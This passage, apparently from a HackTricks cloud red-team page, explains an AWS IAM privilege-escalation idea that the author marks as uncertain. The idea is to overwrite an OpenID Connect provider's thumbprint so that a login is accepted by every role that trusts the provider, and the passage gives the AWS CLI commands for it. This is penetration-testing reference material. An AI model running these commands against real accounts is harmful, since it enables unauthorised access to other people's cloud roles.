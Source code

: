 {% hint style="info" %}
TODO: A Tool capable of generating the SAML metadata and login with a specified role
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(Unsure about this) If an attacker has these **permissions** he could add a new **Thumbprint** to manage to login in all the roles trusting the provider.

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
